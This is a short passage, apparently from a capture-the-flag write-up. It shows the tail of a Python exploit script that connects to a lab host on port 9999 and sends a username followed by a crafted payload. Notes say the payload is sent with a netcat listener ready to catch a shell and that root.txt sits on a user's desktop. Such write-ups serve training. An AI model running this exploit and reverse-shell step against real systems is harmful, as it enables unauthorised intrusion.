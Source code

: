 ```python
      s.connect(('10.10.203.108',9999))
      s.recv(1024)
      s.recv(1024)
      s.send(username + b'\r\n')
      s.recv(1024)
      s.send(message + payload + b'\r\n')
      s.recv(1024)
      s.close()

except:
      print("Cannot connect to the server")
      sys.exit()
```

- send through payload with netcat listener setup to gain shell

- our root.txt is on desktop of drake

* * * 
